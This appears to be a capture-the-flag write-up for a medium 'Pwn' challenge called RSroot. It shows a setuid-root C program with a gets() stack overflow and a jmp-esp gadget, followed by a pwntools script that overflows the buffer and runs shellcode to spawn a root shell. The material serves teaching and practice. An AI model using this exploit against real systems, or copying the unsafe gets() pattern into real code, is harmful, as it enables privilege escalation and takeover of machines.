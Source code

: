 # RSroot
### Category: Pwn
### Level: Medium

---

### Challenge

A shell is given with buffer overflow flaw with its elf executable file

```bash
#include <stdio.h>

int secret_function(){
        asm("jmp %esp");
}
void feedback(){
        char buf[64];
        puts("!!@#$%^&*()_+   @@@@@@@     @@@@@@@   @#$%^&*!@\n!!        !!   @@$%*/$@@   @@$%*/$@@     $%    \n!!        !!  @@%     %@@ @@%     %@@    #$    \n!!@#$%^&*()_+ @@%     %@@ @@%     %@@    !@    \n!!      !!     @@$%*/$@@   @@$%*/$@@     #$    \n!!        !!    @@@@@@@     @@@@@@@      &*    \n     #        %%%%     %%%%  @#$%&*()+  @%%%%%%%@ @%%%%%%%@\n    @$@      %    %   %    % @         @          @        \n   &   @    %        %       @         @          @        \n  *@@$@@*   %        %       @#$%&*()+ @@@@@@@@@  @@@@@@@@@\n &       &  %        %       @                 @          @\n@         @  %    %   %    % @                 @          @\n@          @   %%%%     %%%% @#$%&*()+ @%%%%%%%@   @%%%%%%@\n");
        puts("Wanna say anything ?\n");
        gets(buf);
}

int main(){
        setuid(0);
        setgid(0);
        feedback();
        return 0;
}

```
<i>gets</i> function can be overflowed

Users need to overflow the code and inject payload to get reverse shell

### Solution

To solve this I used shellcraft from pwntools library python to generate 32bit linux shell payload

```bash
from pwn import *


gdbscript = '''
init-pwndebug
continue
'''.format(**locals())

exe = './server'
elf = context.binary = ELF(exe,checksec=False)
context.log_level = 'debug'


io = process('./server')
padding = 76

jmp_esp = asm("jmp esp")
jmp_esp = next(elf.search(jmp_esp))

#shellcode = asm(shellcraft.cat('flag.txt'))
shellcode=asm(shellcraft.sh())


shellcode += asm(shellcraft.exit())

payload = flat(
        'a' * padding,
        jmp_esp,
        'a' * 16,
        shellcode
        )

write("payload",payload)

io.sendlineafter(b':',payload)
io.interactive()                                                        
``` 

Which will take the root access in that server, 
Then just open the <i>flag.txt</i> file to get the flag
